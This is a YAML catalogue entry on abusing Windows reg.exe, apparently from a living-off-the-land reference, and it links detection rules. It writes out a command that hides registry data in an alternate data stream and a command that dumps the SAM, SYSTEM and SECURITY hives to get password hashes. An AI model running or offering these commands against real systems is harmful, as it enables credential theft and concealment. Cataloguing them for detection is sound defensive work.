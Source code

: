 ```yaml
---
Name: Reg.exe
Description: Used to manipulate the registry
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
    Description: Export the target Registry key and save it to the specified .REG file within an Alternate data stream.
    Usecase: Hide/plant registry information in Alternate data stream for later use
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: reg save HKLM\SECURITY c:\test\security.bak && reg save HKLM\SYSTEM c:\test\system.bak && reg save HKLM\SAM c:\test\sam.bak
    Description: Dump registry hives (SAM, SYSTEM, SECURITY) to retrieve password hashes and key material
    Usecase: Dump credentials from the Security Account Manager (SAM)
    Category: Credentials
    Privileges: Administrator
    MitreID: T1003.002
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\reg.exe
  - Path: C:\Windows\SysWOW64\reg.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_regedit_import_keys_ads.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_regedit_import_keys.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_reg_dumping_sensitive_hives.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/attempted_credential_dump_from_registry_via_reg_exe.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_dump_registry_hives.toml
  - IOC: reg.exe writing to an ADS
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://pure.security/dumping-windows-credentials/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

